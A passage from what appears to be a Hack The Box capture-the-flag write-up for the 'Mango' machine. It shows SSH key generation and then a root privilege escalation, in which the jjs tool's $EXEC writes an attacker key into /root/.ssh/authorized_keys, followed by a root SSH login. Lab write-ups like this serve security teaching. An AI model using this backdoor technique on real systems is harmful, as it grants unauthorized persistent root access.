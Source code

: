 ```console
The key fingerprint is:                                                                                                                                                                                            
SHA256:9HYpywj0CJCCcW00ljMC910ZBr8KYU5G8GUjmgNX36Y root@kali                                                                                                                                                       
The key's randomart image is:                                                                                                                                                                                      
+---[RSA 3072]----+                                                                                                                                                                                                
|=o**B.=.+o       |                                                                                                                                                                                                
|o=oO*B *.        |                                                                                                                                                                                                
| .+oOo+ =        |                                                                                                                                                                                                
|   * + * o   .   |                                                                                                                                                                                                
|    o E S + o    |                                                                                                                                                                                                
|     . o + +     |                                                                                                                                                                                                
|      . . o      |                                                                                                                                                                                                
|                 |                                                                                                                                                                                                
|                 |                                                                                                                                                                                                
+----[SHA256]-----+
```

now write the public key (id_rsa.pub) in /root/.ssh/authorized_keys using jjs  
```console
admin@mango:/usr/lib/jvm/java-11-openjdk-amd64/bin$ jjs -scripting
Warning: The jjs tool is planned to be removed from a future JDK release
jjs> $EXEC("echo 'ssh-rsa AAAAB3NzaC1yc2......EAAAADAQABx0= root@kali' > /root/.ssh/authorized_keys");
jjs>
```

now we can ssh as root using the id_rsa key we generated using ssh-keygen  
```console
root@kali:~/Desktop/HTB/activeMachines/Linux/Mango# ssh -i sshRootKeys/id_rsa root@10.10.10.162
Welcome to Ubuntu 18.04.2 LTS (GNU/Linux 4.15.0-64-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Thu Mar 19 11:41:35 UTC 2020

  System load:  0.04               Processes:            116
  Usage of /:   26.4% of 19.56GB   Users logged in:      1
```
